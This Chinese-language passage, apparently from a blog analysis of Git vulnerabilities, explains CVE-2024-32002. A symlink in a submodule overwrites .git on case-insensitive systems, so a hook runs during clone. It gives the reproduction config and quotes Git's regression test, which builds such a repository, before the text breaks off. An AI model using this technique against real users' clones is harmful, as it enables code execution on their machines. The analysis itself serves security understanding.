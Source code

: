  ![](/attachments/2024-07-31-git/4031d2b0-1a8c-4ec8-8b94-78ea46671ae8.png)

程序会检测这个`submodule`的路径，确认其是否是一个`../`等有害路径，防止路径穿越。

### 3.2 CVE-2024-32002

在时隔六年后，`submodule`再次出现了类似的漏洞，这一次其影响范围相较之前变小了不少，这次它只影响 Windows 和 Mac 操作系统。

这次的漏洞**依然发生在git clone**阶段，并且同样是操作`submodule`模块。利用方式和之前类似，不过这次**通过劫持.git目录**，从而导致文件写入的发生。

#### 3.2.1 漏洞成因

Windows或者MacOS操作系统不同于Linux，其默认情况下**大小写不敏感**，如果在`submodule`的拷贝过程中，我们能够塞入一个**符号链接**，**将.git目录被同名符号链接覆盖**，此时子模块写入数据的时候，**全部都将写入.git目录中**，最后就能配合hook脚本完成攻击。

#### 3.2.2 漏洞复现

漏洞复现的时候，需要进行如下的配置才能生效：

```shell
# Set Git configuration options
$ git config --global protocol.file.allow always
$ git config --global core.symlinks true
# optional, but I added it to avoid the warning message
$ git config --global init.defaultBranch main 
```

同时，这个漏洞的影响力并不是特别大，因为Windows的符号链接创建需要使用管理员权限，所以如果尝试复现的时候，git必须要获得管理员权限。

这个漏洞git的官方仓库中给了测试用例，用来检测漏洞是否存在：

```none
test_expect_success CASE_INSENSITIVE_FS,SYMLINKS \
    'submodule paths must not follow symlinks' '
    # This is only needed because we want to run this in a self-contained
    # test without having to spin up an HTTP server; However, it would not
    # be needed in a real-world scenario where the submodule is simply
    # hosted on a public site.
    test_config_global protocol.file.allow always &&
    # Make sure that Git tries to use symlinks on Windows
    test_config_global core.symlinks true &&
    tell_tale_path="$PWD/tell.tale" &&
    git init hook &&
    (
        cd hook &&
        mkdir -p y/hooks &&
        write_script y/hooks/post-checkout <<-EOF &&
        echo HOOK-RUN >&2
        echo hook-run >"$tell_tale_path"
        EOF
        git add y/hooks/post-checkout &&
        test_tick &&
        git commit -m post-checkout
    ) &&
    hook_repo_path="$(pwd)/hook" &&
    git init captain &&
    (
        cd captain &&
        git submodule add --name x/y "$hook_repo_path" A/modules/x &&
        test_tick &&
        git commit -m add-submodule &&
        printf .git >dotgit.txt &&
        git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
        printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
        git update-index --index-info <index.info &&
        test_tick &&
        git commit -m add-symlink
```
